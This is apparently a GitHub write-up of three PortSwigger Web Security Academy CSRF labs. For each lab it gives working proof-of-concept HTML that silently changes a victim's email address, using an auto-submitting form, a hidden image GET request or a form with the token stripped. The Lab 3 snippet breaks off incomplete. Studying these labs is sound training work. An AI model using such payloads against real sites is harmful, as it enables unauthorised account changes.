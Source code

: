 # Lab 1: CSRF vulnerability with no defenses
- This lab's email change functionality is vulnerable to CSRF.
- To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.
- Solving this lab, I passed the below payload into the lab's exploit server
```
<!DOCTYPE html>
<html>
  <head>
    <title>CSRF PoC</title>
  </head>
  <body>
    <form action="https://0a93002503ee2bc181631689001e00e1.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hello@text.com">
      <input type="submit" value="Submit CSRF">
    </form>

    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
- Since I don't have burpsuite pro, I made use of chatgpt to generate the CSRF POC for me.

# Lab 2: CSRF where token validation depends on request method  
- This lab's email change functionality is vulnerable to CSRF. 
- It attempts to block CSRF attacks, but only applies defenses to certain types of requests.
- To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
- I was able to complete this lab by changinng POST request to GET, then I csrfed it. code below
```
<!DOCTYPE html>
<html>
  <head>
    <title>CSRF PoC - GET</title>
  </head>
  <body>
    <img src="https://0a5400f4038240a980020374006300db.web-security-academy.net/my-account/change-email?email=hello%40text.com&csrf=0BAFkWjZVOYMWpLg1pBLmXkOoNy1rtVN" style="display:none">
  </body>
</html>
```
# LAB 3: CSRF where token validation depends on token being present
- Just Like the first Lab but here we remove the csrf token
```
<!DOCTYPE html>
<html>
  <head>
    <title>CSRF PoC</title>
  </head>
  <body>
    <form action="https://0ae9008403f5b22881ae5ded008c006c.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hello@text.com">
      <input type="submit" value="Submit request">
    </form>
```